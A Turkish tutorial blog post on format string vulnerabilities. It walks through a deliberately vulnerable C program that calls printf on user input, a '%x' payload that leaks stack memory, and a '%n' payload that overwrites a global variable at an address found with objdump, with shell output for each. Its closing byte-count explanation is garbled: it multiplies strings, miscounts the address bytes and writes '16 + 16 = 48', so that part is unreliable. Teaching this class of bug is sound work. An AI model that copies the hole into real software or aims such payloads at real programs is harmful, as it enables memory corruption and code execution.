 ```yaml
---
title: Format String Attack
layout: post
---
```


# **Format String Nedir ?**
*Format string metin ve format parametreleri tutan bir ASCII'dir. Çoğu programlama dilinde de görebiliriz ki herhangi bir metin yazacağımız zaman bu metini  direk yazımızın içine değilde bir değişkene aktarırız, ve bu değişkenide yazımızın içerisinde format stringler aracılığıyla kullanırız.*

Format Stringleri içeren tablo:

![](https://i.imgur.com/4ZCa5cF.png)


# **Format string zafiyetini içeren fonksiyonlar**
![](https://i.imgur.com/gzbKC2S.png)



# **Örnek format string saldırısı**

**Format String zafiyetini sömürmek için kullanacağımız kodumuz: **
```
#include <stdio.h>
#include <string.h>

int hedef;


int main(int argc, char *argv[]){

		char buffer[64];
		
		strcpy(buffer, argv[1]);
		
		printf("Girdiniz: ");
		
		printf(buffer);
		
		if(hedef){
		   printf("Hedef değişkenini düzenlendi.");
		}
		printf("\n");

}
```


**Derlemek(compile) ve Çalıştırmak(run) için:**

```
gcc vuln.c -o vuln

./vuln "Merhaba Dünya"
```

------------------------------------------------------------------------
<br />
**Zafiyeti kullanarak program içerisinde Bellek Sızıntısı(Memory Leak) yaratmak.**

```
./vuln "0x%x 0x%x 0x%x 0x%x"
```

Yukarıda kullanılan "0x%x" ler baştaki "Format Stringleri içeren tablo"sundan da görebileceğiniz gibi hafıza(memory) içerisindeki diğer adresleri format string zafiyetini sömürerek yazıyoruz. Bellek sızıntısı bu şekilde oluşmuş oluyor. Buffer'e kopyaladığımız 1. argümanımız **printf** fonksiyonu tarafından kullanılmaya çalışıldığında buffere verdiğimiz "0x%x"ler çalışacak ve printf fonksiyonunun format string zafiyetinden yararlanarak bellekteki diğer adresleri gözlemleyebildik.

Ve sonucunda çıktımız(output) şu şekilde gelecektir :

```
root@blacknbunny:/home/blacknbunny# ./vuln "0x%x 0x%x 0x%x 0x%x"
Girdiniz: 0xbffff9b6 0x174 0x174 0x78257830
```

------------------------------------------------------------------------
<br />
Şimdi burdan olayımızı veriye yazmaya yani belirtilen hedef degiskenini düzenlemeye kadar nasıl götürebiliriz ? Cevabımızda aşşağıda :

```
root@blacknbunny:/home/blacknbunny# ./vuln `python -c "print('AAAA' + '\xa4\x96\x04\x08'  + 'BBBB' + '.%x'*4 + '%n')"`
Girdiniz: AAAABBBB.bffff9af.bffff7a8.b7eada75.41414141hedef degiskeni duzenlendi
```

Çıktımızda da gördüğümüz gibi hedef değişkenini yukarıda parametre olarak verdiğimiz python command-line girdisi ile düzenledik. Peki bunu nasıl başardık yani sadece küçük bir **printf** fonksiyonundan hafıza(memory) içerisindeki leak'ten corruption'a yani hafızayı bozmaya ya da düzenlemeye kadar gidebildik ?

İlk önce 4 bytelık bir veri verdik. Buda "AAAA" oluyor.

Sonrasında alttaki komutumuz ile **hedef** değişkenimizin adresini **0x80496a4** olarak bulduk ve 2. olarak python command-line girdimize onu verdik. :

```
root@blacknbunny:/home/blacknbunny# objdump -t ./vuln

...
00000000       F *UND*  00000000              printf@@GLIBC_2.0
0804969c g       *ABS*  00000000              __bss_start
080496a8 g       *ABS*  00000000              _end
```
**080496a4** g     O .bss   00000004              hedef
```
0804969c g       *ABS*  00000000              _edata
...
```

Ve 3. olarak 4 bytelık "BBBB"mizi verdik ki hedefin üzerine "BBBB" yi kullanarak "%n" format string'i ile yazabilelim. %n'in ne olduğunu bilmiyorsanız en üstte bulunan "Format Stringleri içeren tablo"suna da bakabilirsiniz.

------------------------------------------------------------------------
<br />
Başta da memoryi leak etmemizi sağlayan "%x" format stringini hatırlıyorsunuzdur. Onuda en sona koyduk ki bu işlemleri yaparken hafızamızı yani memoryi gözlemleyebilelim.

Sonrasında da "%n" format stringimizi "0x80496a4BBBB.%x.%x.%x.%x%n" metininin toplam byte sayısını **hedef** değişkeninin üzerine yazmak için kullandık.

Toplam byte sayısını hesaplamak için : 

```
4 = "AAAA"

4 = "0x80496a4" # int hedef; değişkenimizin adresi

4 = "BBBB"

4 = ".%x."

4 = "%x.%"

4 = "x.%x"

------------------------------------------------------------------------


"AAAA" *  "0x80496a4"

4 * 4 = 16

"BBBB" * ".%x."

4 * 4 = 16

"%x.%" *  "x.%x"

4*4 = 16

16 + 16 = 48
```

Bu da demek oluyor ki **int target;** değişkenimizin üzerine 48 yazmışız ki bunun da hex karşılığı 0x30 oluyor.

Tam olarak **int target;** değişkenimizin üzerinde memory(hafıza) içerisinde **0x30** mevcut.



**References:**

[OWASP](https://www.owasp.org/index.php/Format_string_attack)

[Geeksforgeeks](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/)

[Man page](https://linux.die.net/man/3/printf)

[Wikipedia](https://en.wikipedia.org/wiki/Printf_format_string)
